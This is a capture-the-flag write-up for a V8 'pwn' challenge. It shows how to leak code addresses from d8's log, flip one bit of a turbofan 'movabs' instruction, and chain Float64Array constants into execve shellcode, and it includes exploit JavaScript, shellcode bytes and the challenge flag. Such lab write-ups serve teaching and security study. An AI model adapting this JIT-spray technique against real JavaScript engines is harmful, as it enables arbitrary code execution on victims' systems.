







# V8 motor

| | |
|---|---|
| Event | The Few Chosen CTF 2026 |
| Category | pwn |
| Difficulty | grandpa |
| Author | minipif |
| Points at close | 181 |
| Solves | 84 |
| Status | solved |

> the sun is a deadly laser

Files: [`motor_v8.zip`](handout/motor_v8.zip)

<details>
<summary><b>Solution</b></summary>

The added `bitFlip` primitive refuses any byte inside the V8 sandbox, but it never checks how far the offset travels to get out. The JIT CodeRange is a 512 MB read-write-execute mapping outside the heap cage. The service runs `d8` with `--log-code`, so the script reads its own code addresses out of `d8.log.getAndStop()`. One flip clears the REX.W bit of a turbofan `movabs r10, imm64`, and nine `Float64Array` constants become a shellcode chain.

## Recon

The handout has a custom `d8`, its `snapshot_blob.bin`, a `bitflip.patch`, a `readflag.c`, a Dockerfile, and a `run.sh`. The flag is mode `0400` owned by root, and only the setuid `/rdflag` can read it, so the exploit has to run a program.

```
$ grep -A5 'chown root' scratch/x/Dockerfile
$ tail -5 scratch/x/run.sh
timeout 90s /challenge/d8 --log-code --logfile=+ "${exp_file}"
```

`run.sh` reads a length and that many bytes, then runs `d8` on them under a 90 second timeout. The `--log-code` flag turns out to be the leak.



## The patch

The patch adds one global function. It computes `target = object->address() + bit_offset / 8`, refuses when the sandbox contains `target`, and otherwise XORs one bit into that byte. The offset must be a non-negative integer no larger than `9007199254740991`, which is `2^53-1`.

The patch also removes `os.system`, its `enable_os_system` flag, and the WebAssembly serializer. Those are the usual shortcuts in a `d8` challenge.

The one-shot flag is set before any argument check or the sandbox check runs.

```cpp
static std::atomic_flag used = ATOMIC_FLAG_INIT;
bool already_used = used.test_and_set();
```

A rejected call still spends the shot, so the remote exploit can't probe. It has to compute every address in the same script that flips.

```
$ scratch/x/d8 scratch/shots/guard.js
  bitFlip(o, 0)     -> throws "invalid"   (o is a normal object, so it is inside the sandbox)
  bitFlip(o, 8)     -> throws "used"      (the rejected call above already burned the shot)
  typeof os         -> undefined
  typeof d8.wasm    -> undefined
```



## The leak

A legal target has to sit outside the sandbox, so the script needs a real address. With `--log-code` on, `d8.log.getAndStop()` returns the log as a string, so warming a function and reading the log back is enough.

```js
function f(a){return a*2;}
for (let i=0;i<100000;i++) f(i);
var log = d8.log.getAndStop();
print(log.slice(0, 3000));
```

A `new,MemoryChunk` row gives a heap chunk address. Most of them share the same top 32 bits, and that's the cage base. Any single row could belong to some other mapping. A `code-creation,JS,<tier>` row gives a function's absolute entry address. Tier 10 is the interpreter, 11 is sparkplug, 12 is maglev, and 13 is turbofan. Tiers 12 and 13 land inside the CodeRange, which sits outside the sandbox.

```
$ ./d8 --log-code --logfile=+ scratch/r/probe.js
new,CodeRange,0x563dc9240000,0
code-creation,JS,12,22691,0x563dc92412c0,688,sprayT ...
code-creation,JS,13,45794,0x563dc9243fc0,504,sprayT ...
```

I had a probe script print those rows and spin. Then I copied `/proc/<pid>/maps` and the first `rwxp` mapping out of `/proc/<pid>/mem`.



`Object.prototype` sits at `cage + 0x1006840`, a fixed offset that doesn't need heap grooming, so it makes the anchor. The bit offset to a turbofan function fits under the `2^53-1` cap and the target is outside the sandbox, so the call goes through.

## Flipping REX.W

Turbofan compiles a `Float64Array` store of a literal constant into a `movabs r10, imm64`, which encodes as `49 ba` plus eight bytes of immediate. The prefix `0x49` is REX.W plus REX.B. Clearing bit 3 gives `0x41`, REX.B alone, so the instruction becomes a six-byte `mov r10d, imm32`. The four high bytes of that first immediate then execute.

I checked this on the dumped CodeRange. Capstone disassembled the turbofan entry before and after the same XOR in Python.



Those four bytes hold an `eb rel` short jump into the next constant's immediate. Each of the other eight constants then runs whole: six bytes of gadget padded with `nop`, plus an `eb rel` tail to the next immediate. The gadgets build the `execve` arguments on the stack before the final syscall.

```
4831f6 4831d2          xor rsi,rsi ; xor rdx,rdx
56 68 <hi>             push rsi ; push the high 4 bytes of "/rdflag\0"
b8 <lo> 90             mov eax, the low 4 bytes
894424fc 9090          mov [rsp-4], eax
488d7c24fc 90          lea rdi, [rsp-4]
4883ec20 9090          sub rsp, 0x20
5657 4889e6 90         push rsi ; push rdi ; mov rsi, rsp
6a3b 58 0f05 90        push 0x3b ; pop rax ; syscall
```

The generator packs each one into an IEEE double and asserts it's finite. It also asserts the nine constants stay distinct, because turbofan folds a repeated constant into a single `movabs`.

I read the `movabs` offsets out of the dump.

```python
TURBO_OFFS = [82, 116, 151, 186, 221, 256, 291, 326, 360]
```

`build()` asserts every relative jump is positive and under 128, so a badly wrong table fails at generation time instead of spending the shot.

## Spending the shot

The script warms a turbofan copy and a maglev copy of the spray function, waits for the log to settle, and reads it once. It prefers the turbofan row and falls back to maglev, whose offset table was never checked against a dump. Then it computes the offset, flips bit 3, and re-enters the sprayer to run the patched code.

```js
const target = chosen[0];
const obj = cage + 0x1006840;
bitFlip(Object.prototype, (target - obj) * 8 + 3);
chosen[1](fa);
print("shellcode did not run (" + chosen[2] + ")");
```



Locally, `/bin/ls` stood in for `/rdflag` in a container rebuilt from the handout Dockerfile.



Swap the path back to `/rdflag`, point [`solve/solve.py`](solve/solve.py) at the live instance over TLS on port 1337, and the setuid helper prints the flag.



## Dead end

An early `ILL_ILLOPN` crash looked like broken shellcode. It was a failed `execve`, after which execution ran on past the syscall. Testing with `/bin/ls` tells the two cases apart.

Flag: `TFCCTF{dacia_logan_motor_v8_vroom_vroom_cfb841a}`
</details>
